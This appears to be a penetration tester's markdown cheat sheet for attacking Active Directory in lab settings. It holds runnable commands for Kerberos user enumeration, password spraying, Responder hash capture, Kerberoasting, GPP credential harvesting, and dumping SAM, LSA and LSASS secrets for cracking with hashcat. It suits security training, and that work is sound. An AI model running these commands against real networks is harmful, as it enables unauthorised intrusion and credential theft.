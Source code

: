 # Active Directory - Enumeration

## Keep in mind

   https://github.com/Andre92Marcos/escalations/blob/master/active_directory_attacks_enumeration.md
   https://github.com/Andre92Marcos/escalations/blob/master/ldap_security_enumeration.md

## Check for attacks

petit-potam: https://github.com/AndreMIsidoro/escalations/blob/master/ad_attacks_enum/petitPotam.md


## For connections

winrm: evil-winrm
with smb: impacket-psexec
with wmi: impacket-wmiexec

## When we dont have anything

### Do simple enum of services (RPC,SMB)

Use enum4linux-ng

   https://github.com/Andre92Marcos/tools/tree/master/enum4linux-ng


### Try to do an ldap anonymous bind

   ldapsearch -x -b "dc=example,dc=com"


### Use ldapdomaindump

https://github.com/Andre92Marcos/tools/tree/master/ldapDomainDump

### Use netexec

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md#ldap

## When we get a new password do a kerbrute passwordspray

https://github.com/AndreMIsidoro/tools/tree/master/kerbrute

## When we have access to target's network

Start responder to try to do some poisoning

   https://github.com/Andre92Marcos/tools/tree/master/responder

## If we have usernames and want to check if they are domain usernames

Enumerate users found to see if they pre authenticate to kerberos

   kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <filename_with_usernames>


## When we have a domain username, no password, no shell

If we can make the target make a smb request back to us

   For example using sqlinjection, we can use responder to get hash and try to crack it
   https://github.com/Andre92Marcos/tools/tree/master/responder


Try to do some ASREProasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/ASREProasting.md

If we are successful we can also try to do some Kerberoasting no preauthentication

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md#kerberoast-no-pre-authentication

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound

## When we have a domain username and a password

We can request a TGT

   https://github.com/AndreMIsidoro/tools/blob/master/impacket/getTGT.md

Try to do some Kerberoasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md

Use netexec smb and ldap

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md

Try to look for Group Policy Preferences (GPP) store plaintext or AES-encrypted credentials for AutoLogon in Active Directory environments:

```shell
netexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M gpp_autologin
```


## When we have a domain username, but no password, but we have a shell

Do a gci request to get the user hash (and use it in other protocols, and try to crack it), with responder running

   gci \\<mylocalhostip>\share\file #share and file dont have to exist

Use group3r

   https://github.com/Andre92Marcos/tools/tree/master/group3r

Use ADRecon

   https://github.com/AndreMIsidoro/tools/tree/master/adrecon

Use the snaffler tool

   https://github.com/Andre92Marcos/tools/tree/master/snaffler

Use laZagne tool

   https://github.com/AndreMIsidoro/tools/tree/master/laZagne

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound

Try some simple password spraying:

https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1
```shell
#PowerView
Invoke-DomainPasswordSpray -Password Welcome1
```

If we are not finding anythin with bloodhound

   Load powesploit PowerView.ps1 from:

      https://github.com/PowerShellMafia/PowerSploit/tree/dev

   And then run 

      Find-InterestingDomainAcl -ResolveGUIDS | ConvertTo-Json

   This might find relations that bloodhound missed

## When we have a TGT and there is certificate authentication in the domain

User certipy to find vulnerabilities (for example, after a shadow credentials attack)

https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/shadow_credentials.md
https://github.com/Andre92Marcos/tools/blob/master/certipy-ad/README.md#find



## When have a local Admin or domain Admin

Use mimikatz tool. (Also if we have user with SeDebugPrivilege)

   https://github.com/Andre92Marcos/tools/tree/master/mimikatz

Dump sam database for hashes

```shell
netexec smb 10.129.202.137 --local-auth -u bob -p 'HTB_@cademy_stdnt!' --sam
# add the nt hash (last hash) to a file and crack it
hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

Dump lsa secrets

```shell
netexec smb 10.129.202.137 --local-auth -u bob -p 'HTB_@cademy_stdnt!' --lsa
```

Dump lsass secrets with mimikatz


Dump SAM database as with a System user:

```
reg save HKLM\SYSTEM SYSTEM.SAVE
reg save HKLM\SECURITY SECURITY.SAVE
reg save HKLM\SAM SAM.SAVE
```
Then upload the files to your host and use secretdumps on the files:

```shell
impacket-secretsdump LOCAL -system SYSTEM.SAVE -sam SAM.SAVE -security SECURITY.SAVE
```

It's also worth running Inveigh once we have local admin on a host to see if we can obtain password hashes for any users.


## Other Tips

### Sync time with kerberos

To figure out the difference in time with the kerberos server:

   sudo ntpdate 10.129.127.130

To simulate the difference in time when executing a command:

   faketime -f '+7h' <command>


## More Information

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet